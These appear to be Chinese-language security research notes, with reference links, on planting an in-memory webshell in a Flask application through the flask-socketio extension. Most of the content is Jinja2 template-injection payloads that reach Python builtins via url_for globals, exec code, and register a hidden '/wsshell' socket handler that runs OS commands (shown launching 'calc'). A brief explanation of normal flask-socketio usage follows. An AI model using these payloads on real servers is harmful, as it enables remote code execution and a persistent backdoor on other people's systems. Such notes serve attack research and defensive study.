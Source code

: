 [https://www.cnblogs.com/fishou/p/4175732.html](https://www.cnblogs.com/fishou/p/4175732.html)
[https://worktile.com/kb/ask/21407.html](https://worktile.com/kb/ask/21407.html)
基于socket实现websocket服务 [https://blog.csdn.net/difu0201/article/details/101582682](https://blog.csdn.net/difu0201/article/details/101582682)
[https://www.cnblogs.com/lujiacheng-Python/p/10293830.html](https://www.cnblogs.com/lujiacheng-Python/p/10293830.html)

[https://cloud.tencent.com/developer/article/1887095](https://cloud.tencent.com/developer/article/1887095)


```python
# ws路由句柄
url_for.__globals__.current_app.extensions['socketio'].server.handlers

url_for.__globals__.current_app.extensions['socketio'].server.handlers['/shellws']= {'shell': lambda j: print(123123)} 

app.extensions['socketio'].server.handlers['/chat']['join']=lambda e,d: __import__('os').popen('calc')
lambda e,d: __import__('os').popen('calc')

handler=lambda e,d: __import__('os').popen('calc')



{{ url_for.__globals__['__builtins__']['exec'](
"
app.extensions['socketio'].server.handlers['/wsshell'] = {};
app.extensions['socketio'].server.handlers['/wsshell']['shell']=lambda e,d: __import__('os').popen('calc')
", 
{'app':url_for.__globals__['current_app']})
}}



{{ url_for.__globals__['__builtins__']['exec'](
"
app.extensions['socketio'].server.handlers['/wsshell'] = {'shell':lambda e,d: __import__('os').popen('calc')}
", 
{'app':url_for.__globals__['current_app']})
}}
```
## Flask-socketio
由于 Flask 本身并不支持 websocket，只能通过第三方扩展如基于 socketio 开发的 flask-socketio实现，还有一些花里胡哨的实现方法，在弄这个的时候想了一些办法来实现 websocket 的内存马。
一种是如果端口能开放，使用 socket 实现一个伪 websocket，但是实际没有啥用。
第二种就是这个 web 应用使用了扩展来支持 websocket，这里用 flask-socketio 来演示一下。它的基本用法如下，使用`@socketio.on`装饰器，可以通过 namespace 来准许客户端在同一个 socket 上建立多个独立的链接；even_name 代表事件名称，可以自己定义，同时客户端连接的时候需要指定事件发送消息。
```python
from flask_socketio import SocketIO
socketio = SocketIO(app, cors_allowed_origins="*")

@socketio.on('event_name', namespace='/namespace')
def func_name(message):
    send({'msg': 'message info'})

socketio.run(app)
```
客户端的用法
```javascript
// 连接WebSocket
var socket = io.connect('http://domain:port/namespace');
```